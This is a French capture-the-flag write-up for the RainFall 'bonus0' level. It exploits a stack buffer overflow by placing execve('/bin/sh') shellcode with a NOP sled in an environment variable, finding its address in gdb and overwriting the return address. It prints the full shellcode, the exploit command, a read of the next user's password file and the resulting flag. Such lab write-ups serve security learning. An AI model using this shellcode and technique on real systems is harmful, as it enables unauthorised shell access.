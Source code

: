 Ici on a un executable `bonus0`, le main appelle la fonction `pp` qui appelle `p` 2 fois

La fonction `p` appelle `read` qui va lire depuis l'entree standard

Apres plusieurs test on voit que 20 * "A" en premiere entree et 20 * "B" en deuxieme fait segfault
```sh
bonus0@RainFall:~$ ./bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```
On va chercher l'offset en utilisant [ce lien](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), l'offset est de 9 char

On va vouloir provoquer le segfault pour executer un shellcode `execve(/bin/sh)` comme dans le level9

En revanche il n'y pas pas de malloc (donc pas possible de stocker sur la heap) et le `strncpy` ne copie que 20 char donc on peut pas utiliser la stack

On va donc passer notre shellcode en variable d'environnement, il faut dabord voir a quelles adresses elles sont

On va en creer une avec notre shellcode :

`export SCRIPT=$(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')`

PS : on va d'abord ecrire un `NOP sled` (tapis de NOP) pour securiser notre script (car on ne sait pas exactement a quelle adresse il commence une fois stocke), entre 50 et 100 pour etre sur

Ensuite dans gdb on va chercher l'adresse de notre var d'env `SCRIPT`
```sh
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/150s environ
[...]
0xbffff851:	 "/home/user/bonus0/bonus0"
0xbffff86a:	 "SHELL=/bin/bash"
0xbffff87a:	 "TERM=xterm-256color"
0xbffff88e:	 "SSH_CLIENT=192.168.56.1 56066 4242"
0xbffff8b1:	 "SSH_TTY=/dev/pts/2"
0xbffff8c4:	 "USER=bonus0"
0xbffff8d0:	 "SCRIPT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
[...]
```
On voit qu'il faut viser une adresse supperieur a `0xbffff8d0`
```sh
(gdb) x/150wx 0xbffff8d0
0xbffff8d0:	0x49524353	0x903d5450	0x90909090	0x90909090
0xbffff8e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff8f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff900:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff910:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff920:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff930:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
0xbffff940:	0xc289c189	0x80cd0bb0	0xcd40c031	0x534c0080
```
Donc nimporte quelle adresse qui contient les `NOP` ex : `0xbffff910 = \x10\xf9\xff\xbf`

On va donc ecrire un script qui va viser cette adresse :

`(python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\x10\xf9\xff\xbf" + "A" * 7' && cat) | ./bonus0`

Enfin notre shellcode a marche donc on recupere le flag avec : `cat /home/user/bonus1/.pass`: 

`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`